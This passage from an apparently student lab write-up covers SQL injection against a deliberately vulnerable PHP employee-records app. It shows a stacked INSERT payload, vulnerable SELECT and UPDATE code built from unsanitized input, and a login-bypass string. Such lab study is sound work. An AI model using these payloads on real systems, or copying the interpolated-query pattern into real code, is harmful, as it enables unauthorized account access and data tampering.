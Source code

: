 ```php
admin'; INSERT INTO `credential` VALUES  (7,'Dani','60000',20000,'9/20','10211002','a','a','a','a','7110eda4d09e062aa5e4a390b0a572ac0d2c0220') -- 
// password is 1234 in SHA1
```

But unfortunately, this returns a SQL statement error.

After inspecting the source code for the webpage, we can retrieve the part that queries the database:

```php
// create a connection
$conn = getDB();
// Sql query to authenticate the user
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= '$input_uname' and Password='$hashed_pwd'";
if (!$result = $conn->query($sql)) {
  echo "</div>";
  echo "</nav>";
  echo "<div class='container text-center'>";
  die('There was an error running the query [' . $conn->error . ']\n');
  echo "</div>";
}
```

And here we check that to query the database, the author used `query()`. After checking the PHP documentation, it is not possible to run multiple queries in a `query()` statement. To run multiple queries we would need to replace it with a `multi_query()` function call.

Source: [https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php)

### Task 3.1

In the task 3 is asked to do an SQL Injection Attack on an UPDATE statement. This attack aims to change the data in the database. More specifically, a user through the edit profile page changes his own salary. To exploit this vulnerability, we start by taking a look at the given PHP code implemented in the given unsafe_edit_backend.php file:

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

As in task 2, we verified that there is no cleaning done on the input of the form fields.

In order to exploit this vulnerability, we started by forcing into Alice's account through the vulnerability found in task 2.1, but instead of forcing into the admin account, we force into Alice's account with "alice' -- " input in the login page.
